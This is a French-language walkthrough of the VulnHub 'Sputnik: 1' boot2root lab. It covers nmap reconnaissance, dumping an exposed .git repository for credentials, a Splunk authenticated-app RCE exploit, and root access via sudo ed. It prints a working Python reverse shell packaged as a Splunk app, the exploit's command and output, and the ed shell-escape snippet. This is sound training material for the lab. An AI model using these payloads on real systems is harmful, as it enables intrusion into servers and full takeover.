



# Sputnik: 1

[Sputnik: 1](https://www.vulnhub.com/entry/sputnik-1,301/) est une machine virtuelle vulnérable, conçue par [Ameer Pornillos](https://ethicalhackers.club/about/) et publiée sur VulnHub au mois d'avril 2019. L'objectif, comme toujours, est de trouver et d'exploiter des vulnérabilités sur la VM fournie, afin d'obtenir les privilèges d'administration (root) et de récupérer un flag, preuve de l'intrusion et synonyme de validation du challenge. C'est parti pour ce _walkthrough_ ! Attention, spoilers...

## Description

_Sputnik is an easy level boot2root machine designed to be a challenge for security enthusiasts to learn and practice compromising machines and penetration testing. The vulnerable machine was made as a boot2root CTF challenge for an InfoSec community wherein CTF challenges were made by hackstreetboys (a CTF team from Philippines)._

## Recherche d'informations

Pour commencer, l'outil [netdiscover](https://github.com/alexxy/netdiscover) est utilisé afin de retrouver l'adresse IP de la VM Sputnik : il s'agit de 192.168.56.101.

```console
root@blinils:~# netdiscover -r 192.168.56.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts
3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname
-----------------------------------------------------------------------------
192.168.56.1    0a:00:27:00:00:10      1      60  Unknown vendor
192.168.56.100  08:00:27:38:27:38      1      60  PCS Systemtechnik GmbH
192.168.56.101  08:00:27:d8:0b:51      1      60  PCS Systemtechnik GmbH
```

Toute phase d'attaque commence par une analyse du système cible. Un scan [nmap](https://nmap.org/book/man.html) va nous permettre à la fois d'identifier les services installés sur le serveur, et d'obtenir des informations sur le système d'exploitation. En premier lieu, il semble possible de se connecter à l'interface d'administration de Splunk Enterprise sur le port 61337, sous réserve évidemment de connaître les bons identifiants.

[Splunk](https://en.wikipedia.org/wiki/Splunk#Products) est un outil de collecte et d'analyse d'importants volumes de données, qui les restitue dans de jolis graphiques et tableaux de bord. Elle utilise une API standard permettant une connexion directe du service vers les applications et les appareils, joignable via le port ouvert 8089. Une base de données MongoDB semble être installée sur le serveur (port 8191) et, le meilleur pour la fin, une instance du jeu vidéo [Flappy Bird](https://en.wikipedia.org/wiki/Flappy_Bird) développé par Nguyễn Hà Đông est déployée sur un serveur Web, accessible via le port 55555 !

```console
root@blinils:~# nmap -sT -sV -p- -A 192.168.56.101
--snip--
Host is up (0.00094s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE         VERSION
8089/tcp  open  ssl/http        Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2019-03-29T11:03:21
|_Not valid after:  2022-03-28T11:03:21
8191/tcp  open  limnerpressure?
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest: 
|     HTTP/1.0 200 OK
|     Connection: close
|     Content-Type: text/plain
|     Content-Length: 85
|_    looks like you are trying to access MongoDB over HTTP on the native driver port.
55555/tcp open  http            Apache httpd 2.4.29 ((Ubuntu))
| http-git: 
|   192.168.56.101:55555/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Flappy Bird Game
61337/tcp open  http            Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was http://192.168.56.101:61337/en-US/account/login?return_to=%2Fen-US%2F
--snip--
MAC Address: 08:00:27:D8:0B:51 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
--snip--
Nmap done: 1 IP address (1 host up) scanned in 64.31 seconds
```

## Dump du dépôt Git et extraction d'informations sensibles


Force est de constater qu'il n'y a pas grand-chose à se mettre sous la dent : la connexion à l'interface d'administration de Splunk nécessite un couple d'identifiants, et ceux par défaut (admin/changeme) ne fonctionnent pas. Idem pour l'accès à l'API 'Atom Feed'. En revanche, l'utilisation de l'option ```-A``` de nmap a mis en évidence la présence d'un [dépôt Git](https://en.wikipedia.org/wiki/Git), accessible sans aucune authentification sur le serveur Web Apache via le port 55555. Si l'existence du jeu mobile Flappy Bird sur ce serveur est surprenante, celle du dépôt Git associé a le don d'intriguer.

```console
root@blinils:~# nmap -h | grep '\-A'
  -A: Enable OS detection, version detection, script scanning, and traceroute
  nmap -v -A scanme.nmap.org
```

Ainsi, tout comme lors du [huitième CTF](/CTF-VulnLabs/lampsecurity-CTF8) de LampSecurity, [le script gitdumper.sh](https://github.com/internetwache/GitTools) développé par [Sebastian Neef](https://neef.it/) va être mis en oeuvre pour cette VM boot2root. Lecture recommandée : _[Don't publicly expose .git or how we downloaded your website's sourcecode - An analysis of Alexa's 1M](https://en.internetwache.org/dont-publicly-expose-git-or-how-we-downloaded-your-websites-sourcecode-an-analysis-of-alexas-1m-28-07-2015/)_ sur le blog d'Internetwache.
 
```console
root@blinils:~# ./gitdumper.sh http://192.168.56.103:55555/.git/ git-dump
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########

[*] Destination folder does not exist
[+] Creating git-dump/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[-] Downloaded: config
[-] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[+] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[+] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
[+] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[+] Downloaded: objects/89/9212a811519dd29ee550e163f40560f15107ff
[+] Downloaded: objects/21/b4eb398bdae0799afbbb528468b5c6f580b975
[-] Downloaded: objects/00/00000000000000000000000000000000000000
[+] Downloaded: objects/dd/b976cde6367cc38a83709b34940c20071c028f
--snip--
[+] Downloaded: objects/27/fd90cc337d599e4d93d6ceeced4664426243df
[+] Downloaded: objects/8b/8be7119c795b91424aa237bc91e058a0bffa15
[+] Downloaded: objects/cf/40c32b4b3e714d4616f8721ec54f6f446181a7
[+] Downloaded: objects/31/9b43a0731b8e8278bcb7c2c16f9008cf45c822
```
 
L'historique des validations (_commit history_) permet d'en apprendre davantage sur la provenance de ce jeu.
 
```console
root@blinils:~/git-dump/.git/logs# cat HEAD 
0000000000000000000000000000000000000000 21b4eb398bdae0799afbbb528468b5c6f580b975 root <root@sputnik.(none)> 1553864873 +0000
clone: from https://github.com/ameerpornillos/flappy.git
```
 
En réalité, ce dépôt Github flappy.git n'appartient à nul autre qu'au créateur de ce CTF. En fouillant les commits, un couple d'identifiants finit par apparaître à l'écran, au sein d'un fichier nommé _secret_. Le propriétaire du dépôt Github s'est aperçu de sa maladresse et a aussitôt effacé le fichier, mais le mal est fait : l'historique des commits nous donne ce qui semble être le login ```sputnik``` et le mot de passe ```ameer_says_thank_you_and_good_job``` tant convoités pour accéder à Splunk.
 


La recherche avec les mots-clés « _splunk exploit_ » s'avère fructueuse. En effet, elle renvoie plusieurs entrées sur le site Exploit Database dont une [divulgation d'informations](https://www.exploit-db.com/exploits/44865) (_Information Disclosure_) et une [exécution de code à distance](https://www.exploit-db.com/exploits/46238) (_Remote Code Execution_), ainsi que deux articles très intéressants sur l'exploitation de Splunk : _[Popping shells on Splunk](https://www.n00py.io/2018/10/popping-shells-on-splunk/)_ par n00py et _[Penetration Testing with Splunk: Leveraging Splunk Admin Credentials to Own the Enterprise](https://threat.tevora.com/penetration-testing-with-splunk-leveraging-splunk-admin-credentials-to-own-the-enterprise/)_ par Kevin Dick.



## Splunk < 7.0.1 - Information Disclosure

Référencée par l'identifiant [CVE-2018-11409](https://nvd.nist.gov/vuln/detail/CVE-2018-11409), cette vulnérabilité publiée par KoF2002 permet à une personne malveillante d'obtenir des informations sur le serveur cible — version de l'OS, version de Splunk, clé de licence... — sans authentification préalable. Contre toute attente, l'exploitation de cette vulnérabilité fonctionne sans accroc, alors que la version de Splunk installée sur cette VM (7.2.5.1) est censée ne pas être affectée par cette vulnérabilité.



## Splunk Enterprise 7.2.3 - Authenticated Custom App RCE

Cette vulnérabilité-ci ne devrait pas non plus être exploitable sur cette VM... et pourtant, ça marche ! L'exploit [46238.py](files/46238.py) développé par Lee Mazzoleni nécessite l'installation de [geckodriver](https://github.com/mozilla/geckodriver/releases) et de [Selenium](https://en.wikipedia.org/wiki/Selenium_(software)), qui automatisent les actions qu'un utilisateur devrait effectuer manuellement : ouverture d'une page, remplissage d'un formulaire, clic sur un lien...

```console
root@blinils:~# wget -q https://www.exploit-db.com/download/46238 -O 46238.py
root@blinils:~# wget -q https://github.com/mozilla/geckodriver/releases/download/v0.24.0/geckodriver-v0.24.0-linux64.tar.gz
root@blinils:~# mkdir -p /root/Desktop/SplunkSploit/Gecko/
root@blinils:~# tar -xzf geckodriver-v0.24.0-linux64.tar.gz -C /root/Desktop/SplunkSploit/Gecko/
root@blinils:~# tree /root
/root
├── 46238.py
├── Desktop
│   └── SplunkSploit
│       └── Gecko
│           └── geckodriver
│               └── geckodriver

4 directories, 2 files
```

Une fois l'installation terminée, il est temps de lancer l'exploit... après l'avoir relu et analysé, bien évidemment ! C'est magique : le bot se charge tout seul d'ouvrir le navigateur, de se connecter à Splunk avec les identifiants fournis, de cliquer au bon endroit afin d'accéder au menu Uploads, puis de constituer et de charger l'app nommée [splunk-shell.tar.gz](files/splunk-shell.tar.gz) (disponible sur ce dépôt).

```console
root@blinils:~# python 46238.py http://192.168.56.101:61337 sputnik ameer_says_thank_you_and_good_job 192.168.56.102 4444
[*] Creating Splunk App...
	==> Adding reverse shell (to 192.168.56.102:4444) to the app...
	==> Payload Ready! (splunk-shell.tar.gz)
[+] Starting bot ...
[*] Loading the target page ...
[*] Attempting to log in with the provided credentials ... Login successful!
[*] Navigating to the uploads page (http://192.168.56.101:61337/en-US/manager/appinstall/_upload) ...
[*] Your persistent shell has been successfully uploaded!
[+] Preparing to catch shell ... (this may take up to 1 minute)
listening on [any] 4444 ...
192.168.56.101: inverse host lookup failed: Unknown host
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 35080
$ id
id
uid=1001(splunk) gid=1001(splunk) groups=1001(splunk)
$ 
```

C'est tout bon, nous disposons d'un shell sur la VM ! Au fait, à quoi ressemble splunk-shell.tar.gz ?

```console
root@blinils:~# tar -xzf splunk-shell.tar.gz
root@blinils:~# tree splunk-shell
splunk-shell
├── appserver
│   └── static
│       └── application.css
├── bin
│   └── shell.py
├── default
│   ├── app.conf
│   ├── indexes.conf
│   ├── inputs.conf
│   └── props.conf
├── local
│   └── app.conf
├── logs
│   ├── maillog
│   └── maillog.1
└── metadata
    ├── default.meta
    └── local.meta

7 directories, 11 files


root@blinils:~# cd splunk-shell/
root@blinils:~/splunk-shell# cat bin/shell.py
import sys,socket,os,pty
ip="192.168.56.102"
port="4444"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

root@blinils:~/splunk-shell# cat default/inputs.conf 
#   Version 1.0.0
# Creates an input for sample data.

[script://./bin/shell.py]
disabled = 0
interval 10
sourcetype = fun
```

## Élévation de privilèges avec le binaire ed

L'objectif est désormais de devenir root sur le serveur Sputnik. Une rapide vérification avec [LinEnum.sh](https://github.com/rebootuser/LinEnum) et [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker) permet de s'orienter vers une solution beaucoup plus simple que prévu : le compte Unix _splunk_ et le compte _sputnik_ partagent le même mot de passe. La commande ```sudo -l``` affiche la configuration sudo pour l'utilisateur courant ; l'utilisateur _splunk_ est autorisé à exécuter la commande /bin/ed via sudo. Un petit tour sur l'excellent site [GTFOBins](https://gtfobins.github.io/gtfobins/perl/) nous permet d'obtenir un snippet pour élever nos privilèges et passer root avec le binaire ed.

```console
splunk@sputnik:/$ sudo -l
sudo -l
[sudo] password for splunk: test

Sorry, try again.
[sudo] password for splunk: ameer_says_thank_you_and_good_job

Matching Defaults entries for splunk on sputnik:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User splunk may run the following commands on sputnik:
    (root) /bin/ed

splunk@sputnik:/$ sudo /bin/ed
sudo /bin/ed
!/bin/bash
!/bin/bash
root@sputnik:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```

Merci beaucoup à [Ameer Pornillos](https://ethicalhackers.club/about/) pour avoir créé ce challenge fort symputnik !

```console
root@sputnik:/# cat /root/flag.txt
cat /root/flag.txt
 _________________________________________
/ Congratulations!                        \
|                                         |
| You did it!                             |
|                                         |
| Thank you for trying out this challenge |
| and hope that you learn a thing or two. |
|                                         |
| Check the flag below.                   |
|                                         |
| -----REDACTED-----                      |
|                                         |
| Hope you enjoy solving this challenge.  |
| :D                                      |
|                                         |
\ - ameer (from hackstreetboys)           /
 -----------------------------------------
--snip--
```
